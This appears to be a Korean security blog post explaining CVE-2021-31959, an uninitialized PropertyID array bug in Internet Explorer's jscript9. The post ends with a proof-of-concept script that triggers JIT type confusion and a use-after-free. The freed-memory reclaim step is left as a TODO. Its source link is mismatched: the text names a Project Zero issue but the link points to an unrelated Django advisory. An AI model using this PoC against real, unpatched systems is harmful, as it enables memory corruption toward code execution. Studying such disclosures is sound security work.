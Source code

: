 ```yaml
---
title: "[하루한줄] CVE-2021-31959: Internet Explorer Uninitialized Property ID array"
author: L0ch
tags: [L0ch, cve, internet explorer, uninitialized variable, microsoft]
categories: [1day1line]
date: 2021-06-15 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[[Issue 2168: Internet Explorer: Memory corruption in jscript9.dll due to uninitialized Property ID array](https://bugs.chromium.org/p/project-zero/issues/detail?id=2168)](https://securitylab.github.com/advisories/GHSL-2021-075-django/)

## Target

- Internet Explorer (Windows 10)

## Explain
MS에서 지원을 2022년 6월에 완전히 종료하겠다고 밝힌 Internet Explorer에서 초기화되지 않은 배열 요소의 사용으로 인한 취약점이 발견되어 세부 정보가 공개되었습니다.

취약점은 jscript9의 PropertyID 배열의 처리 방식에 존재합니다. PropertyID 배열은 `ByteCodeGenerator::EmitScopeObjectInit` 함수에 할당됩니다. 이때 할당 시 메모리를 초기화하지 않는 `ArenaAllocator::Alloc` 함수를 사용해 배열을 할당하므로 배열의 일부가 초기화되지 않은 상태로 유지됩니다.

이러한 초기화되지 않은 PropertyID로 변수의 scope를 속일 수 있습니다. 이를 악용하면 정상적인 방법으로 액세스 할 수 없는 변수에 액세스 할 수 있으며 원격 코드 실행으로 이어질 수 있습니다. 해당 취약점은 [CVE-2020-1380](https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2020/CVE-2020-1380.html)과 동일한 방법으로 JIT 엔진을 사용해 트리거할 수 있습니다.

**PoC Code**

```html
<!-- saved from url=(0014)about:internet -->
<script>

alert('start');

// prepare objects
var buf = new ArrayBuffer(0x8c);
var arr = new Int32Array(buf);

var o = {};
o.valueOf = function() {
    alert('callback');
    // free 
    worker = new Worker('worker.js');
    worker.postMessage(buf, [buf]);
    worker.terminate();
    worker = null;

    // sleep
    var start = Date.now();
    while (Date.now() - start < 200) {}
    // TODO: reclaim freed memory

    return 0
};

// generate function from string in order to have a clean bytecode generator
var vulnstr =
"for (let i=0; i<1; i++) {\n" +
"    function opt(A, x, crash) {\n" +
"        'use strict';\n" +
"        const aagaaaaaaahabauaaaaa = x+1;\n" + //special variable name so that hash is eqal to 0x109 (property ID of Int16Array)
"        const c02 = aagaaaaaaahabauaaaaa+1;\n" +
"        const c03 = c02+1;\n" +
"        const c04 = c03+1;\n" +
"        const c05 = c04+1;\n" +
"        let c06 = c05+1;\n" +  // this variable will alias with Int16Array
"        const c07 = c06+1;\n" +
"        const c08 = c07+1;\n" +
"        const c09 = c08+1;\n" +
"        const c10 = c09+1;\n" +
"        const c11 = c10+1;\n" +
"        const c12 = c11+1;\n" +
"        const c13 = c12+1;\n" +
"        const c14 = c13+1;\n" +
"        const c15 = c14+1;\n" +
"        const c16 = c15+1;\n" +
"        const c17 = c16+1;\n" +
"        const c18 = c17+1;\n" +
"        const c19 = c18+1;\n" +
"        const c20 = c19+1;\n" +
"        const c21 = c20+1;\n" +
"        const c22 = c21+1;\n" +
"        const c23 = c22+1;\n" +
"        const c24 = c23+1;\n" +
"        const c25 = c24+1;\n" +
"        const c26 = c25+1;\n" +
"        const c27 = c26+1;\n" +
"        const c28 = c27+1;\n" +
"        const c29 = c28+1;\n" +
"        const c30 = c29+1;\n" +
"        const c31 = c30+1;\n" +
"        const c32 = c31+1;\n" +
"        const c33 = c32+1;\n" +
"        const c34 = c33+1;\n" +
"        const c35 = c34+1;\n" +
"        const c36 = c35+1;\n" +
"        const c37 = c36+1;\n" +
"        const c38 = c37+1;\n" +
"        if(crash) {\n" +
"          c06 = c06 + 1;\n" + // we must change it here so that the value below is not known
"          Int16Array = o;\n" + // here we actually change the value (and type) of c06
"        }\n" +
"        A[0] = c06;\n" + // if crash==1, c06 is an object here, but JIT thinks it's an integer
"        eval(1);\n" +  // needed to trigger ByteCodeGenerator::EmitScopeObjectInit
"    }\n" +
"    for(var i=0; i<100000; i++) {\n" + // jit a function
"      opt(arr, 1, 0);\n" +
"    }\n" +
"    opt(arr, 1, 1);\n" +
"    alert('failed');\n" +
"}";

vuln = Function(vulnstr);
vuln();

</script>
```